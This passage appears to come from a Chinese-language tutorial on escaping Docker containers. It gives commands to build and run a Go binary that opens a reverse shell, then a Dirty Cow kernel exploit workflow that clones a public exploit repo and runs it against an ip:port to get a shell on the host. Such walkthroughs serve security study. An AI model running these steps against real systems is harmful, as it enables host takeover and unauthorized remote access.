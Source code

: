 ```plain
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

3、编译好后传入 docker 容器中

```plain
docker cp main 1fa6a736e332:/home
docker exec -it 1fa6a736e332 /bin/bash
cd /home/
chmod 777 main
```

4.运行 main 程序成功反弹 shell

```plain
./main
```

## 脏牛漏洞逃逸

Dirty Cow 是 Linux 内核中的提权漏洞，源于 Linux 内核的内存子系统在处理写入拷贝时存在竞争条件（race condition），允许恶意用户提权获取其他只读内存映射的写访问权限。

docker 和宿主机共享内核，因此就可利用该漏洞进行逃逸

```plain
git clone https://github.com/gebl/dirtycow-docker-vdso.git
cd dirtycow-docker-vdso/
docker-compose run dirtycow /bin/bash

cd /dirtycow-vdso/
make
./0xdeadbeef ip:port // 反弹 shell
```
